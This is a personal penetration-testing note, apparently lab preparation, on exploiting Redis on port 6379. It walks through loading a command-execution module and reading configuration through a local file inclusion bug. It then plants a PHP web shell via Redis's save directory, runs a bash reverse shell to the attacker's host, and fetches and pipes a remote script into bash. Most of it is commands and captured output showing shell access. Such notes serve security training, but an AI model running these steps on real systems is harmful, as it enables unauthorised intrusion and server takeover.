 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

#### Download Redis

OPTION 1:

```bash - kali
sudo apt install redis-tools
```

```bash - kali
redis-cli -h $TARGET -a Ready4Redis?
```

If password doesn't work try obtaining the [[#Redis config files]].

xxx.xxx.xxx.xxx:6379> `ping`
`PONG`

```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand && cd RedisModules-ExecuteCommand
```

```bash - kali
sudo make
```

Upload module.so into victim (Example by FTP):

We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.

>/var/ftp/pub/module.so

### Redis RCE
```bash - kali
redis-cli -h $TARGET
```

```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```

```bash - kali
system.exec "id"
```

[[Port 22 - SSH  ~#Generate key upload to victim]]

### Redis config files
Use with LFI vulnerability.

```bash - kali
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```

```bash - kali
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```

#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /var/www/html
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
(error) ERR
```

If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to. 
```bash - kali
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```

Try the steps again with the new paths:
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
OK
xxx.xxx.xxx.xxx:6379> 
```

We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```bash - kali
┌──(kali㉿kali)-[~]
└─$ curl http://$TARGET/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```


The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash - kali
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```

Let's host this file using a python webserver to make it available to the target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

We then need to start a listener to catch the reverse shell.
![[rlwrap]]

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```bash - kali
curl http:$TARGET/?path=/opt/redis-files/test.php
```

This command will hang, and we will receive a connection to our listener.

```bash - kali
connect to [$KALI] from (UNKNOWN) [xxx.xxx.xxx.xxx] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
